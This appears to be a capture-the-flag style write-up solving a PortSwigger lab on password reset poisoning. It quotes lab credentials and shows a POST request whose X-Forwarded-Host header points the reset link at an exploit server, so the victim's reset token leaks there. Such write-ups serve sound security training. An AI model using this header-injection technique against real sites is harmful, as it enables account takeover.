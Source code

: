 
# Password reset poisoning via middleware

This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

---------------------------------------------

References: 

- https://portswigger.net/web-security/authentication/other-mechanisms



![img](images/Password%20reset%20poisoning%20via%20middleware/1.png)

---------------------------------------------

A POST request is generated when trying to change the password:



![img](images/Password%20reset%20poisoning%20via%20middleware/2.png)


The link generated is “https://0a12001204e7e3e982ef202200a10043.web-security-academy.net/forgot-password?temp-forgot-password-token=JiMwnEiWPtqhfR5EAaUObelEM6CE11uK”:



![img](images/Password%20reset%20poisoning%20via%20middleware/3.png)


It is possible to poison the URL of the email using the header “X-Forwarded-Host”:

```
POST /forgot-password HTTP/2
...
X-Forwarded-Host: exploit-0a870063038466fd80799d71012c004f.exploit-server.net

username=carlos
```



![img](images/Password%20reset%20poisoning%20via%20middleware/4.png)


With this, there is a request to the exploit server:



![img](images/Password%20reset%20poisoning%20via%20middleware/5.png)


We can use this to change carlos' password:





![img](images/Password%20reset%20poisoning%20via%20middleware/6.png)
![img](images/Password%20reset%20poisoning%20via%20middleware/7.png)